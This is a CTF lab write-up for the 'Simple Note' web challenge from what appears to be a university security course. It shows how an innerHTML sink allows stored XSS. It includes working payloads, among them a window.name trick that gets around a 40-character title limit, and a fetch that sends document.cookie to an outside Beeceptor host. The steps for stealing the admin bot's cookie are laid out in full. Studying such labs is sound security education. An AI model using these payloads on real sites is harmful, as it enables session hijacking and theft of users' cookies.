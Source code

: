 ```yaml
---
title: Simple Web - 0x09(Lab - Simple Note)
tags: [CTF, Web, eductf]

category: "Security > Course > NTU CS > Web"
---
```


# Simple Web - 0x09(Lab - Simple Note)
###### tags: `CTF` `Web` `eductf`
Challenge: https://note.ctf.zoolab.org/

## Background
[](https://www.wibibi.com/info.php?tid=402)

## Source Code
```javascript!
...
<script>
    const id = location.pathname.split('/').pop();

    fetch(`/api/note/${id}`).then(r => r.json()).then(({ title, content })=>{
        url.value = location;
        titleNode.innerHTML = title;
        contentNode.innerText = content;
    });   
</script>
...
```
For instance, if our `$id=47a8aad1b3b82dcd4decd36d`, the `script code` will fetch this data as `json` file and parse title and content.
![](https://i.imgur.com/Nwj6gCQ.png)
Then it'll change `titleNode` by `innerHTML` and change `contentNode` by `innerText`.
![](https://i.imgur.com/H8VdiIb.png)

### `innerText` VS `innerHTML`
`innerText` will filter tag but `innerHTML` will not.
For instance, `title=123` and `content=<script>123</script>`
![](https://i.imgur.com/eoXQYv5.png)


For instance, `title=<script>123</script>` and `content=123`
![](https://i.imgur.com/lGgpgQi.png)

### Analysis
According to the response, it seems has no filter of our input, so, we can choose to inject something in <font color="FF0000">`titleNode`</font>
![](https://i.imgur.com/5lNfsqw.png)


## Exploit - XSS
1. We tried to inject `<script>` tag in title but has nothing to trigger.
According to [javascript documentation](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)
    > It is not uncommon to see innerHTML used to insert text into a web page. There is potential for this to become an attack vector on a site, creating a potential security risk. 
    > Although this may look like a cross-site scripting attack, the result is harmless. HTML specifies that a \<script\> tag inserted with innerHTML should not execute.

    > However, there are ways to execute JavaScript without using \<script\> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example: 
    
    ```javascript!
    const name = "<img src='x' onerror='fetch()'>";
    el.innerHTML = name; // shows the alert
    ```

2. Use `img` tag
Payload: `<img src='x' onerror='alert(1)'>`
![](https://i.imgur.com/01YmwNW.png)

3. String limit problem...
There's something wrong, that the title has input limit with 40 character at most. So, we can use `window.name` technique that we can write our payload as long as we can.
If we set:
    ```javascript!
    top.name = 'fetch("https://sbk6401.free.beeceptor.com?sh="+document.cookie)'
    ```
    Furthermore, we set our title as:<font color="FF0000">`<img src=x onerror=eval(window.name)>`</font>

    Then if we reload this page, it'll execute the command in `top.name`
    ![](https://i.imgur.com/B8aRmbN.png)

4. Host a server by `Beeceptor`
Note that, you should change `Content-Type` to `text/html`
![](https://i.imgur.com/eg4UUpl.png)
Then we can change the Report URL as what we set in `Beeceptor`
![](https://i.imgur.com/fVTg6oI.png)

5. Detail about workflow
    ```flow
    st=>start: Start
    e=>end: get flag in Beeceptor
    op=>operation: Set title to <img src=x onerror=eval(top.name)>
    io=>inputoutput: Click Report
    op2=>operation: Set URL as  https://sbk6401.free.beeceptor.com 
    op3=>operation: Execute our script that set in beeceptor
    op4=>operation: Set top.name as our payload
    op5=>operation: redirect to https://note.ctf.zoolab.org/note/fafe93de9467a6022fb8cb19
    op6=>operation: eval(top.name)


    st->op->io->op2->op3->op4->op5->op6->e
    ```

## Reference
[在XSS测试中如何绕过字符长度限制](https://zhuanlan.zhihu.com/p/93192936)